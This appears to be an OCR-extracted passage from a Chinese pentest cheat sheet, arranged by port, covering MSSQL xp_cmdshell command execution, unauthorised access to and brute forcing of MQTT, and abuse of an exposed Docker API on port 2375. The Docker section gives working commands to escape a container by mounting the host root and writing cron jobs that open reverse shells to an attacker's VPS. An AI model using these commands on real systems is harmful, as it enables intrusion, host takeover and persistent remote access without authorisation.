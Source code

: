 ```bash
EXEC xp_cmdshell 'whoami';
GO
EXEC dbName..xp_cmdshell 'whoami';
GO

# 禁用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 0;
GO
RECONFIGURE;
GO

# 执行外部 Python 脚本
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```

## 1883 MQTT

```bash
# 未授权访问
# https://github.com/thomasnordquist/MQTT-Explorer
使用工具配置服务主机信息后连接

# 批量检测未授权访问
# UNKNOWN ERROR
# ~/nuclei-templates/http/misconfiguration/unauth-zwave-mqtt.yaml
# nuclei -t ~/nuclei-templates/http/misconfiguration/unauth-zwave-mqtt.yaml -l host.txt


# 暴力破解
# https://github.com/akamai-threat-research/mqtt-pwn
docker compose up --build --detach
docker compose ps
docker compose run cli
```

## 2375 Docker

```bash
HOST=;PORT=2375;

# Judgement
curl $HOST:$PORT/version
curl $HOST:$PORT/info


# 未授权访问
docker -H tcp://$HOST:$PORT images
docker -H tcp://$HOST:$PORT container

# 批量检测未授权访问
# https://github.com/projectdiscovery/nuclei
# ~/nuclei-templates/http/misconfiguration/exposed-docker-api.yaml
nuclei -t ~/nuclei-templates/http/misconfiguration/exposed-docker-api.yaml -l host+port.txt


# 文件上传 (容器逃逸)
docker -H tcp://$HOST:$PORT run -it -v /:/mnt nginx:latest --name nginx-test /bin/bash
HOST=;PORT=; # Configure VPS information
echo "* * * * * root export RHOST="HOST";export RPORT=6789;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'" > /mnt/etc/cron.d/reverse_shell_python
echo "* * * * * root /bin/bash -i >& /dev/tcp/HOST/PORT 0>&1 > /mnt/etc/cron.d/reverse_shell
```

